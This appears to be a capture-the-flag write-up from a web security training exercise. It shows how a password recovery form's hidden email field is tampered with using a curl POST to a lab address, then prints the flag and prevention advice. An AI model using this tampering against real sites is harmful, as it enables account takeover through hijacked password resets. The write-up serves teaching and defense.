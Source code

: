 # Description

Visiting the sign in page from the home page give us a Login panel with username and password.

Using the I forgot my password option can make us recover the password.

Viewing the source code of the password recovery form

```
<form action="#" method="POST">
	<input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
	<input type="submit" name="Submit" value= "Submit">
</form>
```

It's obvious that it sends a recovery email to webmaster@borntosec.com

Changing that email to another one. By doing so it will sends us the recovery password link instead

# Attack

Using Curl to send a post request with the new email in it

```
*[main][/goinfre/mashad/projects/darkly]$ curl -X POST -d "mail=example@gmail.com&Submit=Submit" http://10.12.177.91/\?page=recover
<!DOCTYPE HTML>
<html>
        ..
<center><h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>

*[main][/goinfre/mashad/projects/darkly]$ 
```

# Prevention

	- *Secure Password Recovery Form:* In the password recovery form, don't reveal sensitive information like email addresses or user identifiers. A more secure approach is to send a password reset link to the email address on file without disclosing any information.

	- *Authentication for Password Recovery:* Before sending a password reset email, ensure that the user making the request is the legitimate account owner. Implement proper authentication mechanisms, such as security questions or email verification, to validate the identity of the user requesting the password reset.

	- *Developer Education:* Educate your development team about secure coding practices.